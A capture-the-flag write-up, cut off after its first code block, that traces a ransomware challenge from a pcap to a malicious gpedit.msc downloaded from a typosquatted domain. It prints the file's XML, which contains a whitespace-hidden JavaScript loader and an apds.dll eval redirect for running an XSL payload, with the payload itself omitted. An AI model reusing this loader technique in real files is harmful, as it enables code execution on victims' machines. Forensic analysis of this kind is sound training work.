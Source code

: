 **Writeup author: Oslolosen**

*My computer went to ransomland and all I got was this lousy pcap! Can you please help me unlock the FlagDisk.vhdx?*

In this task, we were given a pcap file and a disk image. The goal, as stated in the task, was to unlock the disk and extract the flag inside.

The most straightforward approach would be to attempt to open the disk directly, but I decided to start by examining the pcap file. I usually check for HTTP traffic, as it is often present in such challenges. Luckily, this was the case here. In the HTTP traffic, I found a `GET` request to the domain `wlndowsupdater.com` to download a zip file. At first glance, this looked like `windowsupdater.com`, but a closer inspection revealed that the `i` had been replaced by an `l`, a common obfuscation tactic.
![[Get_Zip_File.png]]

Extracting the zip file from the pcap and unzipping it revealed a file named `gpedit.msc`. It was unusual to see a `Microsoft Saved Console` file, but examining its contents showed XML code that included URL-escaped text (omitted here for brevity).
```xml
<StringTable>
	<GUID>{71E5B33E-1064-11D2-808F-0000F875A9CE}</GUID>
	<Strings>
	<String ID="1" Refs="1">Favorites</String>
	<String ID="8" Refs="2">// Console Root
	// &#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;&#x20;
	
	var scopeNamespace = external.Document.ScopeNamespace;
	var rootNode = scopeNamespace.GetRoot()
	var mainNode = scopeNamespace.GetChild(rootNode)
	var docNode = scopeNamespace.GetNext(mainNode)

	external.Document.ActiveView.ActiveScopeNode = docNode
	docObject = external.Document.ActiveView.ControlObject
	external.Document.ActiveView.ActiveScopeNode = mainNode

	var XML = docObject;
	XML.async = false
	var xsl = XML;

	xsl.loadXML(unescape("#URL ESCAPED TEXT#"))

	XML.transformNode(xsl)
	</String>
	<String ID="23" Refs="2">Document</String>
	<String ID="24" Refs="1">{2933BF90-7B36-11D2-B20E-00C04F983E60}</String>
	<String ID="38" Refs="2">Main</String>
	<String ID="39" Refs="1">res://apds.dll/redirect.html?target=javascript:eval(external.Document.ScopeNamespace.GetRoot().Name)</String>
	</Strings>

</StringTable>
```
